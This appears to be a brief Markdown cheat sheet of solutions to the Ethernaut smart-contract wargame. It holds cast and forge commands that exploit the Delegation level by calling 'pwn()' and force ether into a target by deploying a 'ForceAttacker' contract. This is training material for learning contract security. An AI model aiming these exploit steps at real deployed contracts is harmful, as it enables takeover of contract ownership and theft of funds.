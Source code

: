 # Ethernaut

## Delegation

```bash
cast send <TARGET_CONTRACT> "pwn()"
```

## Forge

```bash
# Deploy
forge create ForceAttacker --constructor-args <TARGET_CONTRACT>

# Attack
cast send --value 0.01ether <ATTACKER_CONTRACT>
```

